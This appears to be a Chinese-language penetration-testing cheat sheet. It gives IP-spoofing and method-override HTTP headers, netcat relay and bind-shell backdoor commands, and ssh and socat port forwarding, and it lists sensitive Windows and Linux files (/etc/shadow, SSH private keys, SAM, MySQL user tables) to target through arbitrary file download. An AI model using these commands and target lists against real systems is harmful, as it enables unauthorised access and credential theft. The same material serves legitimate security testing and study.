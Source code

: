 ### header

```
X-HTTP-Method-Override: PUT 	  # 覆盖http方法(GET, POST, PATCH, DELETE, PUT)

X-Forwarded-For: 127.0.0.1		# 伪装ip
X-Client-IP: 127.0.0.1			# 伪装ip
Client-IP: 127.0.0.1			  # 伪装ip
```

### 常用工具

- nc

	- 代理
		```bash
		$ mkfifo fifo
		$ nc -l 3333 0<fifo | nc target_ip target_port 1>fifo
		```
	- 创建后门
		```bash
		# 服务端
		$ nc -l 3333 -e /bin/bash

		# 客户端
		$nc target_ip 3333
		```
	- 端口转发
		```bash
		# 所有连接到 80 端口的连接都会转发到 8080 端口。
		$ nc -u -l  80 -c  'nc -u -l 8080'
		```

- ssh

	- 端口转发
	```bash
	# -R [bind_address：]port：host：hostport
    # -R [bind_address：]port：local_socket
    # -R remote_socket：host：hostport
    # -R remote_socket：local_socket
    # -R [bind_address：]port
	$ ssh -R 1080:localhost：8080 root@12.34.56.78
	```

- socat

	- 端口转发
	```bash
	$socat -d -d -lf /var/log/socat.log TCP4-LISTEN：15000,reuseaddr,fork,su=nobody TCP4：server.wesnoth.org：15000
	```
	> “-d -d -lf /var/log/socat.log”是参数，前面两个连续的-d -d代表调试信息的输出级别，-lf则指定输出信息的保存文件。
	>
	> “TCP4-LISTEN:15000,reuseaddr,fork,su=nobody”是一号地址，代表在15000端口上进行TCP4协议的监听，复用绑定的IP，每次又连接到来就fork复制一个进程进行处理，同时将执行用户设置为nobody用户。
	>
	> “TCP4:server.wesnoth.org:15000″是二号地址，代表将socat监听到的任何请求，转发到server.wesnoth.org:15000上去。

### 任意文件下载

#### locate

linux中有一个命令 **locate** 是用来查找文件或目录的，它不搜索具体目录，而是所有一个数据库 **/var/lib/mlocate/mlocate.db**（需要root权限）。这个数据库中含有本地所有文件的信息。Linux自动创建这个数据库，一天更新一次。

```conf
rz@kali:/opt/tmp$ ls -l /var/lib/mlocate/mlocate.db 
-rw-r----- 1 root mlocate 119291736 1月   6 06:31 /var/lib/mlocate/mlocate.db
rz@kali:/opt/tmp$ locate anythingyouwant
^C
rz@kali:/opt/tmp$
```

#### 一些常用的下载文件

Windows:

```
C:\boot.ini //查看系统版本
C:\Windows\System32\inetsrv\MetaBase.xml //IIS配置文件
C:\Windows\repair\sam //存储系统初次安装的密码
C:\Program Files\mysql\my.ini //Mysql配置
C:\Program Files\mysql\data\mysql\user.MYD //Mysql root
C:\Windows\php.ini //php配置信息
C:\Windows\my.ini //Mysql配置信息
C:\Windows\win.ini //Windows系统的一个基本系统配置文件
```

Linux:

```
/root/.ssh/authorized_keys
/root/.ssh/id_rsa
/root/.ssh/id_ras.keystore
/root/.ssh/known_hosts //记录每个访问计算机用户的公钥
/etc/passwd
/etc/shadow
/etc/my.cnf //mysql配置文件
/etc/httpd/conf/httpd.conf //apache配置文件
/root/.bash_history //用户历史命令记录文件
/root/.mysql_history //mysql历史命令记录文件
/proc/mounts //记录系统挂载设备
/porc/config.gz //内核配置文件
/var/lib/mlocate/mlocate.db //全文件路径
/porc/self/cmdline //当前进程的cmdline参数
/var/log/wtmp // 登陆日志，可用 who /var/log/wtmp 查看
```


### 参考

> [实战 SSH端口转发](https://www.ibm.com/developerworks/cn/linux/l-cn-sshforward/)
>
> [10 useful ncat (nc) Command Examples for Linux Systems
](https://www.linuxtechi.com/nc-ncat-command-examples-linux-systems/)
>
> [任意文件下载引发的思考](https://mp.weixin.qq.com/s/iYwd0vIlratE_t_VasroLA?)
>
> [巧用命令注入的N种方式
](https://mp.weixin.qq.com/s/Hm6TiLHiAygrJr-MGRq9Mw)
>
> [使用socat进行端口转发](http://www.cnblogs.com/lexus/archive/2012/12/02/2798796.html)





